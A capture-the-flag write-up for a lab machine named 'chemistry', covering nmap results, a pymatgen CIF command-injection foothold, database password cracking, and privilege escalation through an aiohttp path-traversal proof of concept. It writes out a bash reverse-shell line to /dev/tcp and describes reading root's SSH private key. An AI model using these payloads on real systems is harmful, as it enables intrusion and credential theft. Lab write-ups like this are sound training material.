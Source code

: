 # chemistry

## Nmap

```console
PORT     STATE  SERVICE REASON         VERSION
80/tcp   closed http    reset ttl 63
5000/tcp open   upnp?   syn-ack ttl 63
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/3.0.3 Python/3.9.5
|     Date: Fri, 25 Oct 2024 08:52:34 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 719
|     Vary: Cookie
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="UTF-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Chemistry - Home</title>
|     <link rel="stylesheet" href="/static/styles.css">
|     </head>
|     <body>
|     <div class="container">
|     class="title">Chemistry CIF Analyzer</h1>
|     <p>Welcome to the Chemistry CIF Analyzer. This tool allows you to upload a CIF (Crystallographic Information File) and analyze the structural data contained within.</p>
|     <div class="buttons">
|     <center><a href="/login" class="btn">Login</a>
|     href="/register" class="btn">Register</a></center>
|     </div>
|     </div>
|     </body>
|   RTSPRequest: 
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
|     "http://www.w3.org/TR/html4/strict.dtd">
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: HTTPStatus.BAD_REQUEST - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
```

## web

![web](./images/chemistry-cifs.png)

* cifs exploit.
  * As mentioned in the [POC](https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f)
  * utilise the same cif file but change the system command to the following.

    ``` code
    /bin/bash -c \'sh -i >& /dev/tcp/<IP>/<Port> 0>&1 \'
    ```

## User-own

![app-user](./images/chemistry-app-py.png)

![db](./images/chemistry-db-dump.png)

![sqlcrack](./images/chemistry-sql-passwd-crack.png)

## Priv esc

![services](./images/chemistry-services.png)

* Portforwarding the 8080 http service

```bash
ssh -l 8000:127.0.0.1:8080 rosa@IP
```

* Enumerating the service on 8080.

```console
PORT     STATE SERVICE REASON         VERSION
9001/tcp open  http    syn-ack ttl 64 aiohttp 3.9.1 (Python 3.9)
|_http-server-header: Python/3.9 aiohttp/3.9.1
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: Site Monitoring
```

* aio exploit POC [here](https://github.com/z3rObyte/CVE-2024-23334-PoC/blob/main/exploit.sh) can help us read the id_rsa key of the root.
  * replace the /etc/passwd with /root/.ssh/id_rsa along with replacing static with assets.

![aio](./images/chemistry-aio-exploit.png)

* ssh locally as rosa and escalate to root

![root](./images/chemistry-root.png)
